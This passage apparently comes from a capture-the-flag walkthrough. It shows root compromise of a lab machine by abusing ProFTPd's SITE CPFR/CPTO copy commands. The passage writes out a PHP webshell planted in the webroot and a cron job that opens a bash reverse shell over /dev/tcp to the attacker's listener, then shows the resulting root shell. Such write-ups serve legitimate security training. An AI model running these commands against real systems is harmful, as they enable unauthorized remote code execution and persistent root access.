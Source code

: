 
## Exploitation

### ProFTPd Remote Command Execution

As I have mounted the FTP resource to our attacking machine, simply I redirect a simple webshell to the FTP's home directory, and then copy the webshell to the webroot with netcat, as shown below: 

```console
root@kali:~$ echo '<?php passthru($_REQUEST["cmd"]); ?>' > /mnt/ftp/z.php
root@kali:~$ nc 192.168.179.133 21
220 The Good Tech Inc. FTP Server
SITE CPFR /home/ftp/z.php
350 File or directory exists, ready for destination name
SITE CPTO /var/www/tryingharderisjoy/z.php
250 Copy successful
quit
221 Goodbye.
```

I requested the webshell by running the **ls -la** command, and we see that this was written with root permissions.

```console
root@kali:~$ curl -s 'http://192.168.179.133/z.php?cmd=ls%20-la'
total 28
drwxr-xr-x 3 www-data www-data 4096 Jul  8 11:31 .
drwxr-xr-x 3 root     root     4096 Jan 27  2019 ..
drwxr-xr-x 8 www-data www-data 4096 Jan  6  2019 ossec
-rw-r--r-- 1 root     root       37 Jul  8 11:31 z.php
```

Having this in mind we create a cron job with a bash reverse shell that it will execute every minute and then we redirect it to the mounted ftp directory.

```console
root@kali:~$ echo -e '* * * * * root bash -c "bash -i >& /dev/tcp/192.168.179.1/443 0>&1"\n' > /mnt/ftp/sysstatus
```

After we transfer it to the **/etc/cron.d/** directory, as shown below:

```console
root@kali:~$ nc 192.168.179.133 21
220 The Good Tech Inc. FTP Server
SITE CPFR /home/ftp/sysstatus
350 File or directory exists, ready for destination name
SITE CPTO /etc/cron.d/sysstatus
250 Copy successful
quit
221 Goodbye.
```

We set up a netcat listener on port 443 and after a minute we have a root shell.

```console
root@kali:~$ nc -vlnp 443
listening on [any] 443 ...
connect to [192.168.179.1] from (UNKNOWN) [192.168.179.133] 50138
bash: cannot set terminal process group (5051): Inappropriate ioctl for device
bash: no job control in this shell
root@JOY:~# id
uid=0(root) gid=0(root) groups=0(root)
root@JOY:~# uname -a
Linux JOY 4.9.0-8-amd64 #1 SMP Debian 4.9.130-2 (2018-10-27) x86_64 GNU/Linux
root@JOY:~# cat proof.txt
Never grant sudo permissions on scripts that perform system functions!
```

